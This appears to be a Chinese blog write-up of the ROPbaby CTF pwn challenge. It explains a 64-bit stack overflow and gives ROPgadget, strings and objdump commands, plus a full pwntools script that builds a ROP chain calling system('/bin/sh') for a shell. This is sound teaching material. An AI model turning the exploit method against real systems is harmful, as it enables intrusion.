 ```yaml
---
layout:     post
title:      实验吧ROPbaby(PWN)
subtitle:   一道简单的ROP手法的PWN题
date:       2019-07-26
author:     LISTONE
header-img: img/post-bg-digital-native.jpg
catalog: true
tags:
    - CTF
    - PWN
    - Notes
---
```

>本文首发于博主公众号LISTONE，欢迎关注哦！

题目链接：[ROPbaby](http://www.shiyanbar.com/ctf/2028)
（没想到题目服务器挂掉了，只能本地做了）

这个题目给了我们两个文件一个ROPbaby，一个libc。

首先查看ropbaby的文件信息和保护方式。

在这里可以看到程序开启了NX，这样的话shellcode的方式就很难用了，因此我们用ROP的方法来溢出攻击。

ROP的思路就是通过返回导向式编程，劫持程序的返回地址，将其定位到目标位置，在CTF中，我们一般都是劫持程序运行`system('/bin/sh')`。

这个程序通过上面的信息可以知道是64位的，在64位程序中，函数调用时，前六个参数是通过`rdi`、`rsi`、`rdx`、`rcx`、`r8`和`r9`来进行传递的，我们的目的是劫持程序执行`system('/bin/sh')`这个语句。

因此，我们需要做的就是：
1. 找到溢出点
2. 构造gadget，包含`pop rdi | retn`
3. 在libc中找到`/bin/sh`字符串的地址，并送入`rdi`寄存器
4. 找到`system`函数地址，并使程序跳转执行`system`函数

通过题目中给出的libc文件，我们可以轻易地在终端中使用如下命令找到`pop rdi | retn`的地址
```
ROPgadget --binary libc-2.23.so --only "pop|ret" |grep "pop rdi"
```
结果如下：  
![ROPgadget](http://wx2.sinaimg.cn/large/007cEDWily1g5dnsj933cj30gx02gmxx.jpg)

我们需要着重记住上面我框住的那个地址。

找溢出点：
在程序中有一个`memcpy`函数如下：  
![memcpy](http://wx2.sinaimg.cn/large/007cEDWily1g5dnslmgusj308301d745.jpg)

其中`savedergs`是以`int64`声明的，因此最多可输入8个字符，之后多输入就会溢出，这个地方就是我们要找的溢出点了。

然后在libc中找到`/bin/sh`的地址，用下面的命令就可以：
```
strings -tx libc-2.23.so|grep "/bin/sh"
```
![/bin/sh](http://wx2.sinaimg.cn/large/007cEDWily1g5dnsp9s5mj30am0193yj.jpg)

在这个程序中可以直接查找`system`函数的地址，但是我们需要找到程序的基址，所以我们需要找到`system`的偏移地址。
```
 objdump -T libc-2.23.so|grep "system"
```
![objdump](http://wx3.sinaimg.cn/large/007cEDWily1g5dnssdtqnj30jp02ddh1.jpg)
这里面0x45390就是`system`函数的地址

所以，我们可以写出利用脚本：

```
#!/usr/bin/env/python 
# coding=utf-8 
from pwn import *  
#context.log_level = "debug"  
env = os.environ  
#p = remote('106.2.25.7','8004')  
p = process('./ropbaby')  
pop_rdi_ret_offset = 0x21102  
  
str_bin_sh_offset = 0x18cd17  

system_addr_offset = 0x45390  
  
p.recvuntil(':')  
p.sendline('2')  
p.recvuntil('Enter symbol: ')  
p.sendline('system')  
  
system_addr = int(p.recvline()[15:],16)  
print '[+]system_addr: '+ str(hex(system_addr))  

base_addr = system_addr - system_addr_offset  
  
str_bin_sh_addr = base_addr + str_bin_sh_offset  
print "[+]binsh: " + str(hex(str_bin_sh_addr))  
rdi_ret = base_addr + pop_rdi_ret_offset  
  
p.recvuntil(':')  
p.sendline('3')  
p.recvuntil('Enter bytes to send (max 1024): ')  
  
payload = 'a'*8 + p64(rdi_ret) + p64(str_bin_sh_addr) + p64(system_addr)  
  
# p.sendline(str(len(payload)))  
p.sendline('32')  
p.sendline(payload)  
  
p.interactive()  
```